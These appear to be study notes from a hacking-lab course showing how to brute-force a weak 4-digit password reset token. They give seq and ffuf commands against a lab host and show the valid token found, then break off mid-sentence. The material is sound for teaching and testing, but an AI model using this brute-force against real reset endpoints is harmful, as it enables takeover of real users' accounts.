 As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

```shell
gitblanc@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```shell
gitblanc@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:

```shell
gitblanc@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

![](Pasted%20image%2020250314103155.png)

>[!Example]
>The Academy's exercise for this section

I'll generate a worlist of 4-digit tokens:

